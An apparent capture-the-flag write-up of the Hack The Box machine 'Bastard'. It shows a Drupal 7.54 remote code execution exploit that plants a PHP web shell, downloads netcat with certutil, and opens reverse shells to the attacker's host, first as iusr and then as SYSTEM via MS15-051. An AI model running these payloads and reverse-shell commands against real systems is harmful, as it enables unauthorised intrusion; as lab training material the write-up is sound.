 ```yaml
---
layout: post
title: HTB Bastard Writeup  
subtitle: Medium Box
thumbnail-img: /assets/img/bastard/bastard.png
tags: [HTB]
---
```

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/bastard.png)

| Name | Bastard |
| :------ |:--- |
| OS | Windows |
| RELEASE DATE | 18 Mar 2017 |
| DIFFICULTY | Medium |

# Port Scan

```bash
# Nmap 7.92 scan initiated Fri Apr 29 19:20:38 2022 as: nmap -p- -oN scriptScan.nmap -v -sVC 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.078s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# HTTP 80

Going to the webpage it looks like it is a drupal site

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/611ccedf9d7c4c019877c578c5fb5e04.png)

From the nmap output, there was a `/robots.txt` page. Taking a look at that file there was a disallow entry for `/CHANGELOG.txt` this probably has version information about the drupal site. 

The changelog indeed does show the version to be "Drupal 7.54, 2017-02-01"

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/eb19e84b6a0e455ba3e55495b50b26c7.png)

Googling "Drupal 7.54" exploit brings me to [this](https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/) site explaining that there is an RCE 

It tells us to copy over the exploit using `searchsploit -m php/webapps/41564.php` and make a few changes to the first part of the exploit

```php
error_reporting(E_ALL);

define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
define('ACTION', 'login');

$url = 'http://10.10.14.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php echo"Zonifer Rocks"; ?>'
];
```

Before we run the exploit we need to install `php-curl` by running `sudo apt-get install php-curl`. Once that is installed we can run the exploit `php 41564.php`, and now by going to `http://10.10.10.9/test.php` we can see that the exploit works!

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/73ecd3e92c7044c79af9d18e7098315b.png)

We can take this a step further and run commands on the server by making a few changes to our exploit 

```php
$url = 'http://10.10.10.9/';               
$endpoint_path = '/rest';                  
$endpoint = 'rest_endpoint';               

$phpCode = <<<'EOD'                        

<?php                                      


 if (isset($_REQUEST['fupload'])) {                                                   
   file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.12:8888/" . $_REQUEST['fupload']));                                                            
};                                         


 if (isset($_REQUEST['fexec'])) {
    echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};

?>

EOD;

$file = [
    'filename' => 'cmd.php',
    'data' => $phpCode
];

```

Now going to `http://10.10.10.9/cmd.php?fexec=dir` gives us code execution!

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/96a459ec663b47aab42139ef2bb20880.png)

We can now use a netcat windows executable and get a reverse shell. First, we can locate the binary using `locate`, any one of these should work. I used [this one](https://eternallybored.org/misc/netcat/)

```zsh
┌──(kali㉿kali)-[~/htb/bastard]
└─$ locate nc.exe
/home/kali/tools/netcat-1.11/nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```

We will copy it to our working directory `cp /home/kali/tools/netcat-1.11/nc.exe`, and start a python web server to host it `python3 -m http.server 80`. Next, we will use `certutil.exe` and our simple web shell to download the file from kali onto the host. `http://10.10.10.9/cmd.php?fexec=certutil.exe%20-urlcache%20-f%20http://10.10.14.3/nc.exe%20nc.exe`. We can see that it downloaded by looking at our python webserver

```zsh
┌──(kali㉿kali)-[~/htb/bastard]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [29/Apr/2022 23:29:21] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.9 - - [29/Apr/2022 23:29:22] "GET /nc.exe HTTP/1.1" 200 -
```

Next, start up a listener for the shell `nc -lvnp 9001` and execute this in the browser to get a connect back `http://10.10.10.9/cmd.php?fexec=nc.exe%2010.10.14.3%209001%20-e%20cmd.exe`. If we look back at our listener we can see that we now have a shell as `iusr`

```zsh
┌──(kali㉿kali)-[~/htb/bastard]
└─$rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.9] 64544
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr
```

# Root

Let's see what kind of windows machine this is by running `systeminfo`. From the snip below it is a windows server 2008 R2 server on a 64-bit architecture.

```
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 
System Boot Time:          1/5/2022, 1:30:52 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
```

There is a good GitHub repo called [SecWiki](https://github.com/SecWiki/windows-kernel-exploits) that has a directory for windows kernel exploits. Looking through the page [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051) looks like it might work on this machine. I will download the zip file and extract `ms15-051x64.exe` to my working directory. 

Next, we need to copy it over to the machine `certutil.exe -urlcache -f http://10.10.14.3/ms15-051x64.exe exploit.exe` (while still having our python web server running). 

And now we can test and see if it works

```
C:\inetpub\drupal-7.54>exploit.exe
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2492 created.
==============================
nt authority\system
```

We can now execute code as nt authority\system! We can use netcat again to get a reverse shell, but this time as system. Make sure to set up a netcat listener to catch the shell `nc -lvnp 9002` and now we can execute `exploit.exe "nc.exe 10.10.14.3 9002 -e cmd.exe"`

Once it is finished we have a shell as system!
```
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```

